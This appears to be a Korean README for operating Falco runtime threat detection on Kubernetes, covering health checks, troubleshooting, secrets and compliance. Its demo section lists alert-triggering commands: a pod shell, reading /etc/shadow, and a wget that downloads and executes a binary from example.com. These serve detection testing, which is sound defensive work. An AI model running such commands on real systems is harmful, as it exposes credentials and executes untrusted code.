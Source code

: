 **헬스 체크**

```bash
kubectl -n falco get pods
kubectl -n falco describe deploy/falco
```

**모니터링**

* CloudWatch Logs/ELK/ClickHouse+Loki 등으로 중앙집중화.
* 알림 채널: SNS, Slack, Teams, Opsgenie 등.

**자주 나는 장애 · 복구 절차**

* **증상**: 이벤트가 전혀 없음 → **조치**: 커널 드라이버/모듈 로드 실패 여부 확인, 노드 커널 버전 호환성 점검.
* **증상**: 오탐 과다 → **조치**: 조직 표준 동작을 화이트리스트에 추가, 룰 조건에 네임스페이스/레이블 스코프 적용.
* **증상**: Falco CrashLoop → **조치**: 리소스 리밋 상향, 버전/차트 고정, noisy 규칙 비활성화.

---

## 보안 · 컴플라이언스

* **비밀 관리**: 토큰/웹훅 URL/자격증명은 Git에 커밋 금지. Kubernetes Secret 또는 AWS Secrets Manager 사용.
* **최소 권한(IAM)**: 로그/알림 연계 시 필요한 권한만 부여.
* **데이터 보존**: 런타임 로그는 **감사 기록**으로 분류하여 조직 정책(예: 90~180일) 관제 스토리지에 보존.
* **표준 맵핑(예시)**:

  * 탐지/모니터링: *NIST CSF DE.CM*
  * 접근/권한 최소화: *NIST CSF PR.AC*, *ISO/IEC 27001 A.5.15*
  * 로그/증적: *ISO/IEC 27001 A.8*, *(규제 시)* *GDPR Art.32*

---

## 테스트 · 데모 시나리오

```bash
# 1) 셸 스폰
kubectl exec -it -n demo deploy/vuln -- sh

# 2) 민감 파일 접근
cat /etc/shadow || true

# 3) 외부 바이너리 다운로드/실행
wget http://example.com/x && chmod +x ./x && ./x || true
```

> 위 동작은 **테스트 네임스페이스에서만** 수행하세요. 프로덕션에서는 금지입니다.

---

## CI/CD 연동(선택)

* PR 시 **룰 정적 검사**(스키마/필수 필드, 금지 패턴) 및 **샘플 트레이스 재생 테스트**(pcap/trace 리플레이)로 회귀 방지.
* 실패 시 Merge 차단, 승인 후 배포 파이프라인에서 Helm 릴리스/매니페스트 적용.

---
